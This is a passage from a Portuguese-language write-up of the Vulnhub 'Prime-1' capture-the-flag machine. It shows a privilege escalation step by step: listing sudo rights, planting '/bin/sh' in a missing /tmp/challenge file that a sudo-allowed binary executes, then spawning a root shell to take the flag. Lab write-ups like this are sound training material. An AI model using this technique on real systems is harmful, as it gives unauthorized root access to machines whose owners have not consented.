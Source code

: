 
* Listamos os binarios que podem ser executados com o sudo

```bash
sudo -l
```

![](/assets/img/Vulnhub/Prime-1/sudo-l-saket.png)




* Ao executar o binario e exibido uma mensagem de afronta e um erro de "not foud" do arquivo **/tmp/challenge**

![](/assets/img/Vulnhub/Prime-1/challenge.png)


* Provavelmente esse arquivo que nao foi encontrado sera executado como root. Entao vamos criar esse arquivo para nos enviar um shell e consequentemente viraremos **ROOT**!

```bash
echo "/bin/sh" > /tmp/challenge
chmod +x /tmp/challenge
cat /tmp/challenge
sudo /home/victor/undefeated_victor
python -c "import pty;pty.spawn('/bin/bash')"
id
```

![](/assets/img/Vulnhub/Prime-1/criando_challenge_virando_root.png)


* **Pronto, agora somos ROOT!**




# Flag

* Conseguimos pegar a flag

![](/assets/img/Vulnhub/Prime-1/flag.png)